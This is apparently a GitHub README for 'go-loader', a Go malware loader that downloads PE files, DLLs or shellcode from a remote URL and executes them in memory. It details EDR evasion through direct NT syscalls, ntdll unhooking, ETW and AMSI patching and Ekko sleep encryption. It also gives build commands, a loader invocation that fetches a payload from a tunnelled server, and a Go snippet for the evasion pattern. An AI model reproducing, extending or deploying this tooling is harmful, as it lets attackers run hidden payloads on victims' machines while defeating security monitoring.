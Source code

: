 # go-loader

a pe/dll/shellcode loader that downloads and executes files from urls in memory

## demo
![demo (2)](https://github.com/user-attachments/assets/587895f5-7d6c-4825-a4da-d61796546cbe)


## technical details

this project implements full reflective loading of pe files, dlls, and shellcode directly from downloaded byte arrays in memory without ever touching disk. the core functionality includes complete pe parsing with dos/nt header validation, section mapping with proper memory permissions (rx for .text, rw for data), base relocation processing for aslr compatibility supporting both 32-bit (image_rel_based_highlow) and 64-bit (image_rel_based_dir64) relocations, and comprehensive import address table resolution including forwarded export handling that can parse "dll.function" and "dll.#ordinal" forwarder strings and resolve them across multiple dlls. the main technical challenge was go's absolutely evil garbage collector that would intermittently move or collect our downloaded buffers during pe/dll execution, causing status_invalid_handle (0xc0000008) errors and crashes. i solved this by implementing very aggressive anti-gc techniques: runtime.keepalive calls throughout execution, completely disabling gc during critical sections with debug.setgcpercent(-1), locking goroutines to os threads with runtime.lockosthread, forcing multiple gc runs before execution to clear memory, and creating dedicated pinned byte copies that stay alive throughout the entire loading process. for pe execution we allocate memory at the preferred base address when possible or use relocations when aslr forces us elsewhere, copy headers and sections correctly, fix imports and relocations, then execute via ntcreatethreadex. for dll loading we parse export tables to find functions by name or ordinal, handle complex import resolution, and can execute specific exported functions or the dll entry point. shellcode execution uses direct ntinjectselfshellcode for self-injection. the network downloader includes proper http headers for opsec and handles the downloaded data with gc-safe buffer management. all critical syscalls now go through custom nt api wrappers (ntallocatevirtualmemory, ntwritevirtualmemory, ntreadvirtualmemory, ntprotectvirtualmemory, ntfreevirtualmemory, ntunmapviewofsection, ntcreatethreadex, ntwaitforsingleobject, ntclose, ntinjectselfshellcode) instead of high-level windows apis for better opsec and edr evasion. the loader now implements ekko sleep functionality for evasive sleeping during execution - this technique suspends all threads in the current process except the main thread, encrypts the entire process image in memory using systemfunction032 (rc4), sleeps for a specified duration, then decrypts the image and resumes all threads, making static memory analysis much more difficult during sleep periods. you can also encrypt the global buffer containing the downloaded pe/dll/shellcode easily with GetGlobalBufferRegion(), see main.go for example. the syscall wrappers (now in plan9 instead of nasm) provide direct nt api access after unhooking ntdll and applying patches to bypass userland hooks, though i still had to use syscall.loadlibrary and a LOT of syscalls in ekko implementation, also a few times for import resolution since you can't avoid loading dependencies and my ldrloaddll wrapper sucks sorry guys. the loader also now offers a server that parses a payload from disk, chunks, encrypts, and sends one by one to requesting client to be reflectively loaded and executed

> ekko implementation causes intermittent segfaults during dll loading, likely due to rop chain complexity + golang.

## to use the loader/server
```bash
## navigate to go-server/cmd
cd go-server/cmd
## in another shell, run the tcp tunnel ssh command included as a comment in server.go
## replace the const link with the generated link
## then run the server
go run server.go
## this will generate a payloads folder, move your payloads into them
## now navigate to go-loader/cmd\
cd ../cmd
go build -ldflags="-w -s" -trimpath -o loader.exe
## then to run with a payload from /payloads
./loader.exe -pe|dll|shellcode -url http://<generated-link>/payloads/filename.exe
```

## use this pattern for a more reliable form of evasion

```go
// import pkg/net and pkg/patch
patch.ETW
patch.AMSI
addr, size, err := net.GetGlobalBufferRegion()
if err != nil {
	log.Fatalf("[ERROR] Failed to get global buffer region: %v\n", err)
}

key, err := ekko.GenerateKey(16)
if err != nil {
	log.Fatalf("[ERROR] Failed to generate key: %v\n", err)
}

err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
if err != nil {
	log.Fatalf("[ERROR] Failed to encrypt memory region: %v\n", err)
}

// we just call it again to decrypt bc symmetric 
err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
if err != nil {
	log.Fatalf("[ERROR] Failed to decrypt memory region: %v\n", err)
}

```


- [@timwhitez/Doge-MemX](https://github.com/timwhitez/Doge-MemX) for pe loader code that i adapted
- [@scriptchildie/goDLLrefletiveloader](https://github.com/scriptchildie/goDLLrefletiveloader) for dll loading code that i fixed forwarded functions and some other small issues
- [@scriptchildie/goEkko](https://github.com/scriptchildie/goEkko) for ekko sleep implementation
